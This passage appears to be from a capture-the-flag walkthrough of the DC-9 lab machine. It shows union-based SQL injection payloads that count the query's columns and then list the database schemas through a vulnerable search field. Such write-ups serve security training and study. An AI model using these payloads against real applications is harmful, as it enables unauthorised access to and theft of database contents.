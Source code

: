 ![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%201.png)

And I see that it is vulnerable to SQL so I proceed to obtain information from the database.

First I get the number of columns by adding the null value for each column until I get a response with the following query:

```sql
Mary' union select null,null,null,null,null,null-- -
```

Then I go on to list the databases that exist, with the following query:

```sql
Mary' union select null,schema_name,null,null,null,null from information_schema.schemata-- -
```
